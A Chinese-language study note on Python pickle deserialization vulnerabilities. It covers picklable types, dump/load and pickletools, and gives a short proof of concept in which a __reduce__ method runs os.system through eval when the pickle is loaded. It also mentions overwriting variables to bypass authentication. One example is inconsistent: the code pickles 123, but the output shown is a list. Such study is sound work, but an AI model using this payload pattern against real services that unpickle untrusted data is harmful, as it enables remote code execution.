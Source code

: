 ## 记录一下Pickle反序列化，只总结漏洞方面的，不考虑开发

## 介绍

同**php的反序列化相似**(不然为什么叫反序列化呢🤣)，python也有序列化以长期储存内存中的数据

python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别
(当然有yaml，python还有有另一个更原始的序列化包marshal，现在开发时一般使用pickle)

pickle实际上可以看作一种**独立的语言**，通过对opcode的更改编写可以执行python代码、覆盖变量等操作。直接编写的opcode灵活性比使用pickle序列化生成的代码更高，有的代码不能通过pickle序列化得到(pickle解析能力大于pickle生成能力)

pickle序列化后的数据不同于json和php序列化，是**不可读的**

## 使用

### 可序列化的对象

- `None` 、 `True` 和 `False`

- 整数、浮点数、复数

- str、byte、bytearray

- 只包含可封存对象的集合，包括 tuple、list、set 和 dict

- 定义在模块最外层的函数（使用 def 定义，lambda 函数则不可以）

- 定义在模块最外层的内置函数

- 定义在模块最外层的类

- `__dict__` 属性值或 `__getstate__()` 函数的返回值可以被序列化的类(详见官方文档的Pickling Class Instances)

### 基本函数

> **pickle.dump(obj,file[,protocol])**
>
> 序列化对象，并将结果数据流写入到文件对象中，protocol可选择模式，默认为0，文本形式序列化，还可以是1或2，二进制形式序列化。
>
> 注：pickle.dumps()将对象obj对象序列化并返回一个byte对象，所以直接用这个函数生成后打印也是一样的

> **pickle.load(file)**
>
> 反序列化对象。注意要让python找到类的定义，否则报错。
>
> 注：pickle.loads(),从字节对象中读取被封装的对象

> **pickletools.dis(data)**
>
> 可以将不可读的序列化字节转为可读的形式

例子

```py
import pickle
import pickletools

a=123
b=pickle.dumps(a)
print(b)
print(pickle.loads(b))
pickletools.dis(b)

b'\x80\x04\x95\x11\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x01a\x94\x8c\x01b\x94\x8c\x01c\x94e.'
['a', 'b', 'c']
    0: \x80 PROTO      4
    2: \x95 FRAME      17
   11: ]    EMPTY_LIST
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'a'
   17: \x94     MEMOIZE    (as 1)
   18: \x8c     SHORT_BINUNICODE 'b'
   21: \x94     MEMOIZE    (as 2)
   22: \x8c     SHORT_BINUNICODE 'c'
   25: \x94     MEMOIZE    (as 3)
   26: e        APPENDS    (MARK at 13)
   27: .    STOP
highest protocol among opcodes = 4
```

可以看到转换成了汇编语言，这里就不提pickle具体是怎样运作的了，详见[先知社区](https://xz.aliyun.com/t/7436)

## 漏洞利用

**任意代码执行或命令执行。**

**变量覆盖，通过覆盖一些凭证达到绕过身份验证的目的**

### 简单的exp

```py
import pickle
class People(object):
    def __init__(self,name="test"):
        self.name=name
   
    def __reduce__(self):
        return (eval,("__import__('os').system('ls -la')",)) #命令执行
 
a = People()
c = pickle.dumps(a)
print(c)
pickle.loads(c)
```

但是很多时候这些方法都是被ban了的，想要做的话就得自己重写**opcode**，目前底层的学习不精，遇到题或底层学好一点了再来好好总结

[美团杯easypickle](https://blog.csdn.net/Sapphire037/article/details/126919498)